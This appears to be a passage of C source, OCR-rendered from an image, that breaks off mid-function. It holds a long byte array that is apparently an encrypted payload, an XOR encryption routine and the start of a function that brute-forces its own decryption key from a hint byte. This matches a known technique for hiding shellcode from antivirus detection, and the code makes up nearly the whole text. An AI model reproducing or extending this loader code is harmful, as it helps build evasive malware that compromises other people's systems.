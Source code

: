 ```
        0x08,0xC9,0x8B,0x87,0x89,0xC3,0x43,0xC3,0xC8,0x64,0xFC,0x8E,0x0F,0xF9,0xFA,0x0C,
        0x26,0xC0,0xF7,0xFB,0x85,0x4F,0xF0,0xBE,0x3B,0x46,0xF0,0xA6,0x03,0x8B,0xD8,0x9E,
        0x49,0x55,0x72,0x7C,0x58,0x03,0xF7,0x5F,0x30,0x23,0xD8,0xE3,0x9D,0x60,0xE4,0x8B,
        0x3D,0xE3,0x51,0xE2,0x20,0x2A,0xA9,0xBE,0x60,0x55,0x8B,0x54,0x58,0x01,0xA7,0x81,
        0xC0,0x9D,0xFD,0x98,0x1D,0x18,0xE2,0xB3,0xE5,0x28,0x1A,0x4E,0x86,0x07,0xF6,0xC7,
        0xEA,0x61,0x66,0xA5,0xD9,0x8A,0xA0,0xDA,0x80,0x80,0xAD,0x09,0xDD,0xCC,0x07,0xB4,
        0xFE,0x37,0xE5,0x39,0x90,0x5D,0xFB,0x1A,0x89,0x56,0x12,0xDB,0xC4,0xE7,0xD2,0x1E,
        0x47,0x3C,0x50,0x88,0xC7,0x0D,0x89,0xE5,0x7B,0x83,0x1F,0xB4,0x10,0x5D,0x97,0x15,
        0x69,0x42,0xAF,0x17,0x14,0x74,0x2D,0xEE,0xA8,0xC9,0xC6,0xB3,0xC2,0xDB,0xD2,0x18,
        0x28,0xE5,0xBF,0xDC,0xB5,0x77,0x91,0x85,0xDB,0xEF,0xC3,0x3B,0x9E,0x8C,0xC0,0xD9,
        0x2A,0xF0,0xF3,0x41,0x65,0x31,0x29,0xF4,0x3B,0x09,0xF4,0xBC,0x10,0x6F,0xE0,0x31,
        0x1A,0xF2,0x61,0x6F,0x22,0x2E,0xB8,0x2C,0x3F,0x07,0xD2,0x1E,0xC3,0xE4,0x02,0xBF,
        0xAA,0xC4,0xB5,0x9D,0x5F,0x59,0x9D,0xFB,0xFB,0x51,0x63,0x08,0xEC,0x4E,0xE1,0xC3,
        0x26,0xE4,0x19,0x21,0x6F,0x6B,0xD8,0x99,0xAD,0xAA,0xEE,0xA6,0xF8,0xD7,0x39,0xE8,
        0xC4,0x2B,0x6A,0x19,0x63,0x85,0x53,0x78,0xCE,0x01,0x24,0x5E,0x42,0x5C,0x74,0x54,
        0x3D,0x4F,0x3B,0xA8,0xDC,0x1B,0xDE,0xC8,0x58,0xAF,0x67,0xAF,0x15,0x62,0xEE,0x12,
        0x75,0x0D,0xB4,0x28,0x42,0x78,0x2C,0xBB,0x92,0xF8,0xC1,0xB0,0x88,0xDB,0xCC,0x0E,
        0x76,0x9A,0xCD,0xB9,0xC1,0x38,0x94,0xAE,0xC6,0xCF,0x8E,0x2C,0xAE,0xA4,0x9A,0xDC,
        0x7A,0xF3,0xEF,0x79,0x38,0x0E,0x30,0xF9,0x09,0x1D,0xF6,0x96,0x10,0x45,0xB3,0x17,
        0x58,0xF8,0x4B,0x21,0x72,0x04,0x9E,0x70,0x53,0x1A,0xDD,0x37,0xEF,0xBD,0x1C,0xD9,
        0x8D,0xD4,0x93,0xE5,0x4A,0x41,0xE5,0xE5,0xA8,0x70,0x03,0x29,0xC1,0x40,0xE9,0xFE,
        0x56,0xCE,0x2F,0x2A,0x90,0xF0,0xF2,0x80,0xC1,0x95,0xD1,0xF1,0x47,0xCC,0x25,0x0F,
        0xAD,0x4C,0xF7,0xEA,0x19,0xC2,0x3D,0x1A,0xD9,0x05,0x41,0x6D,0xD6,0xCD,0xD8,0x4B,
        0x69,0x07,0x80,0x29,0xED,0xF6,0x20,0xEB,0x24,0x84,0x60,0x7E,0xA5,0x67,0xC0,0x79,
        0x48,0x48,0x40,0x4B,0x76,0x3C,0x57,0x02,0x19,0xD5,0xAB,0x86,0xE8,0xC7,0x29,0x17,
        0x09,0x30,0x14,0x8F,0x85,0x0E,0xA6,0x09,0x67,0xEA,0x88,0xA1,0x92,0x9D,0xE7,0x31,
        0xBF,0xE7,0x96,0xE6,0x46,0x7A,0xB7,0xED,0x30,0x30,0x52,0x10,0x70,0x2B,0xCD,0x39,
        0x91,0x65,0x9D,0x98,0x6F,0x63,0x98,0xDE,0xA1,0xDD,0x98,0x54,0xA7,0x9D,0xF5,0xCE,
        0x30,0xA8,0x1D,0xA9,0x2D,0x36,0xD3,0x7C,0x1E,0x51,0xCB,0xB0,0xC0,0x05,0x47,0x25,
        0x8B,0xF5,0x2F,0x62,0x19,0x62,0xF8,0xB0,0xC0,0x97,0xD5,0x49,0x5F,0x5E,0x8F,0xA7,
        0xE4,0xB9,0x9F,0x6E,0x09,0xC2,0x3D,0x53,0x33,0x0E,0xB6,0x77,0xF4,0x0F,0x33,0x1E,
        0x47,0xC3,0xAA,0xB4,0x36,0x2C,0xB5,0xC9,0xA7,0x3C,0x60,0x7E,0xA5,0x45,0x56,0xF9,
        0x53,0xE7,0x00,0x78,0x56,0x3C,0x1E,0xC2,0x70,0x46,0xE6,0x7D,0xA3,0x18,0x1A,0x80,
        0x4F,0xAE,0x92,0x8F,0x7A,0xDB,0xEE,0x75,0x76,0x87,0x3C,0xA1,0xB5,0x75,0xC9,0x33,
        0x49,0xE2,0xA6,0xEC,0x8E,0x8B,0x0B,0x6C,0x3B,0xBA,0xCD,0xB8,0x5D,0x74,0x6E,0xA2,
        0x73,0x9A,0x12,0x19,0x93,0xA6,0x2F,0xCC
};

// Description: Encrypt a byte array with XOR
//
// Parameter: PBYTE pData:       A pointer to the bytes to encrypt
// Parameter: SIZE_T SizeOfData: The size of the byte array pointed to by pData
// Parameter: PBYTE pKey:        A pointer to the keys bytes
// Parameter: Size_T SizeOfKey:  The size of the byte array pointed to by pKey
//
VOID Xor(PBYTE pData, SIZE_T SizeOfData, PBYTE pKey, SIZE_T SizeOfKey) {
        for (int i = 0, j = 0; i < SizeOfData; i++, j++) {
                if (j >= SizeOfKey) {
                        j = 0;
                }
                pData[i] = pData[i] ^ pKey[j];
        }
}

// Description: Decrypts the encryption key via bruteforcing
//
// Parameter: BYTE HintByte:      The first byte of the unencrypted key
// Parameter: PBYTE EncryptedKey: Pointer to the byte array that is the encryption key
// Parameter: SIZE_T KeySize:     The size of the byte array pointed to by EncryptedKey
//
PBYTE DecryptKey(BYTE HintByte, PBYTE EncryptedKey, SIZE_T KeySize) {
    BYTE  KeyByte      = 0;
    PBYTE OriginalKey  = malloc(KeySize);
```